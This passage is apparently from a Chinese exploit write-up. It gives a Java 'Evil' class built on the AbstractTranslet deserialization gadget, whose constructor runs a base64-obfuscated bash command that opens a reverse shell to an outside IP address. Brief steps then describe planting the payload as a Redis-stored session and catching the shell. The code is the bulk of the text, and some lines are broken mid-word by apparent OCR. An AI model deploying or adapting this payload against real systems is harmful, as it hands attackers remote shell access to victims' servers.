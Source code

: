 ## exp编写

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class Evil extends AbstractTranslet {
public void transform(DOM document, SerializationHandler[] handlers) t
hrows TransletException {}
public void transform(DOM document, DTMAxisIterator iterator, Serializ
ationHandler handler) throws TransletException {}
public Evil() throws Exception {
Process p = null;
try {
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvd
GNwLzEwMy4xNDguMjQ0LjE1MS84ODc3IDA+JjE=}|{base64,-d}|{bash,-i}");
p.waitFor();
} catch (Exception e) {
e.printStackTrace();
}
}
}
```

在redisdb中写入session

[![](assets/1699257095-3c27d4d19adbe4a89783ec38eeb45e42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214918-c8969df8-7a4f-1.png)

然后使用bash进行反弹shell。

[![](assets/1699257095-9fca3b2993d882d34ee6ed75bd69aad0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214924-cc530cec-7a4f-1.png)
